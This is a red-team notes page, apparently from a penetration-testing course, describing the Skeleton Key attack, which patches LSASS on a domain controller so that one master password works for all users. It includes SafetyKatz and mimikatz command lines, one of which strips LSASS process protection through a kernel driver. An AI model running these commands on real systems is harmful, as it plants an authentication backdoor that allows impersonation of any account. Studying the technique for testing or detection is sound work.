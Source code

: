 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Skeleton Key

{% hint style="warning" %}
**OPSEC**: The Skeleton Key method is considered highly OPSEC-risky due to direct interaction with the DC and the potential for detection in memory or logs.
{% endhint %}

The Skeleton Key attack allows an attacker to **patch the LSASS process on a Domain Controller to accept a single hardcoded "master password" for all domain users**. With this backdoor in place, the attacker can authenticate as any user — including privileged accounts — without modifying actual credentials in Active Directory.

Executing this attack **requires Domain Admin privileges** and direct code injection into LSASS. It is **not persistent across reboots** and is known to interfere with services like Active Directory Certificate Services (AD CS), potentially causing instability.

{% code overflow="wrap" %}
```powershell
# The default password is mimikatz
.\SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcop.moneycorp.local
```
{% endcode %}

If LSASS is running as a **Protected Process Light (PPL)** — which is common in hardened environments — standard Skeleton Key injection will fail. In such cases, the attack can still be performed using the **Mimikatz driver** (`mimidriv.sys`), which must be placed on disk and loaded on the target DC:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "misc::skeleton" "!-"
```
{% endcode %}

This approach temporarily disables protection on LSASS to allow patching, but it is **extremely noisy**, involving kernel-mode driver installation, which is likely to trigger alerts in modern EDRs and logging systems.
